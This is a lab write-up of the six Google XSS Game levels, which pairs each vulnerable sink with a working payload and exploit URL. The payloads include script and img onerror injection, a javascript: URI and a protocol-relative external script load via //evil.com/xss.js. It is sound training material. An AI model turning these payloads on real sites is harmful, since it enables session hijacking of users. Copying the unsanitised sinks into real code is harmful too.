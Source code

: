# Google XSS Game Walkthrough (Levels 1–6)

A complete write-up of all six levels of the [Google XSS Game](https://xss-game.appspot.com), showcasing how each level demonstrates a different form of Cross-Site Scripting (XSS).

---

## [1/6] Level 1: Hello, World of XSS

1.	Objective: Trigger an alert by injecting JavaScript into the query URL parameter.
 ![challenge1]( challenges/1.png)
2.	Code Behavior:
  a.	The application reflects the query parameter into the page without sanitization:
  b.	![code1](codes/1.png)
4.	Vulnerability
  a.	Reflected Cross-Site Scripting (XSS):
  b.	User input is placed directly into the DOM using .innerHTML without sanitization or escaping. 
5.	Payload: <script>alert(1)</script>
6.	Exploit URL: https://xss-game.appspot.com/level1/frame?query=<script>alert(1)</script>ipt>
![result1](result/1.png)
---

## [2/6] Level 2: Persistence Is Key

1.	Objective: Exploit stored XSS by injecting JavaScript into a message field that will be saved and later reflected into the page.
 ![challenge2]( challenges/2.png)
2.	Code Behavior
   a.	 ![code2](codes/2.png)
3.	Vulnerability
  a.	Stored XSS (DOM-based):
  b.	User input is unsafely embedded into the DOM using .innerHTML, allowing script execution.
4.	Payload: <img src=x onerror=alert(1)>
![result2](result/2.png)
---

## [3/6] Level 3: That Sinking Feeling...
1.	Objective: Trigger XSS by injecting into a JavaScript sink that uses user input to build and insert raw HTML.
 ![challenge3]( challenges/3.png)
2.	Code Behavior
   a.	 ![code3](codes/3.png)
   b.	The app reads input from location.hash and passes it to chooseTab().
  d.	Inside chooseTab(num), your input is used to dynamically build HTML
  e.	This creates a string of HTML with your input directly inserted into an <img> tag’s src attribute using .html() — a dangerous sink.
3.	Vulnerability
  a.	DOM-based reflected XSS
  b.	No input validation or sanitization
  c.	Direct insertion into HTML via .html() with attacker-controlled num
  d.	Allows attribute injection and event handler execution (e.g., onerror)
4.	Payload: #1'%20onerror='alert(1)
5.	Exploit URL: https://xss-game.appspot.com/level3/frame#1'%20onerror='alert(1)
![result3](result/3.png)
---

## [4/6] Level 4: Context Matters
1.	Objective: Trigger a DOM-based reflected XSS by exploiting how the application uses location.hash to dynamically build an HTML element using jQuery.
 ![challenge4]( challenges/4.png)
2.	Code Behavior
  a.	 ![code4](codes/4.1.png)
  b.	 ![code4](codes/4.2.png)
  c.	The app dynamically builds JavaScript using this pattern:
  d.	Your input from the location.search (the part after ?) is directly inserted into a JavaScript string, which is then executed via setTimeout().
3.	Vulnerability
  a.	DOM-based Reflected XSS in JavaScript string context
  b.	Unescaped user input is inserted into a JavaScript string and executed
  c.	Allows attackers to close the existing expression and inject arbitrary JavaScript
4.	Payload: 1');alert(1);//
5.	Exploit URL: https://xss-game.appspot.com/level4/frame?timer=1%27%29%3Balert%281%29%3B%2F%2F
![result4](result/4.png)
---

## [5/6] Level 5: Breaking Protocol
1.	Objective: Trigger JavaScript execution by injecting a javascript: URI into a link — without using <script> or onclick.
 ![challenge5]( challenges/5.png)
2.	Code Behavior: 
  a.	 ![code5](codes/5.1.png)
  b.	 ![code5](codes/5.2.png)
  c.	The application builds a confirmation page based on the next parameter and does this
  d.	Your next value is:
    i.	Embedded directly into the href attribute
    ii.	Later executed as a redirect URL
3.	Vulnerability
  a.	DOM-based XSS via href="..." and window.location
  b.	No validation or sanitization of the next parameter
  c.	Allows injection of javascript: protocol URIs, which are executable links
4.	Payload: javascript:alert(1)
5.	Exploit URL: http://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
![result5](result/5.png)
---

## [6/6] Level 6: Follow the 🐇
1.	Objective: Trigger XSS by injecting an external script file, even though the app tries to block URLs that start with http:// or https://.
![challenge6]( challenge/6.png)
2.	Code Behavior:
  a.	 ![code6](code/6.png)
  b.	The app dynamically creates a <script> tag using input from the URL hash (#)
3.	Vulnerability
  a.	DOM-based XSS via external script injection
  b.	App blocks only http:// and https://, but not //domain.com
  c.	You can bypass the filter using a protocol-relative URL, like //evil.com/xss.js
4.	Payload: //cdn.jsdelivr.net/gh/naorlivne/poc/xss.js ( Where that file contains: alert(1); )
5.	Exploit URL: https://xss-game.appspot.com/level6/frame#//cdn.jsdelivr.net/gh/naorlivne/poc/xss.js
![result6](result/6.png)
---

## Summary Table

| Level | Vulnerability Type        | Input Source  | Sink               | Payload Example                |
| ----- | ------------------------- | ------------- | ------------------ | ------------------------------ |
| 1     | Reflected XSS             | URL Query     | `.innerHTML`       | `<script>alert(1)</script>`    |
| 2     | Stored DOM XSS            | Message field | `.innerHTML`       | `<img src=x onerror=alert(1)>` |
| 3     | DOM Reflected XSS         | URL Hash      | `.html()`          | `#1'%20onerror='alert(1)`      |
| 4     | DOM Reflected XSS (JS)    | URL Query     | `setTimeout(...)`  | `1');alert(1);//`              |
| 5     | Protocol-based XSS        | URL Query     | `href`, redirect   | `javascript:alert(1)`          |
| 6     | Script Injection via Hash | URL Hash      | `<script src=...>` | `#//evil.com/script.js`        |

---

Created by: **Praful Mardhekar**\
Cyber Security & Offensive Security Enthusiast

